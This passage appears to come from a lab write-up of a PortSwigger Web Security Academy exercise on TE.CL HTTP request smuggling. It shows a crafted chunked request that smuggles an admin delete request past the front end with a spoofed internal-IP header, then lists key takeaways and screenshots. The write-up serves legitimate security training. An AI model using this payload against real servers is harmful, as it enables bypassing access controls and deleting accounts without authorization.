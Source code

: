    ```sh
   Host: YOUR-LAB-ID.web-security-academy.net
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 166
   Transfer-Encoding: chunked

   0

   GET /admin/delete?username=carlos HTTP/1.1
   X-abcdef-Ip: 127.0.0.1
   Content-Type: application/x-www-form-urlencoded
   Content-Length: 10
   Connection: close

   x=1
   ```
   
## 📖 Key Takeaways
- **TE.CL attack works when** the front-end ignores `Transfer-Encoding` but the back-end uses it.
- `Content-Length` must match the total size (in bytes) of your chunked body for the front-end to forward it without waiting.
- Smuggled requests can **leak internal headers** or **bypass access controls**.
- Internal IP spoofing works if the trusted IP is taken from a header added by the front-end.

## 🖼️ Screenshot 
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/ab430d63-a0b0-4987-96c2-4db1948d67ef" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/22f03a5b-96af-4d8d-95cb-058a7e11a314" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/de34cc37-d12a-48ea-828a-857231b54a01" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/c353830c-f9d8-49b9-a6f9-d0d664a77e4c" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/2afbb5ba-c679-4e38-a624-ac9adb136e81" />
<img width="1920" height="1080" alt="image" src="https://github.com/user-attachments/assets/35c1723a-67de-4497-8d9c-60717e9fa53f" />
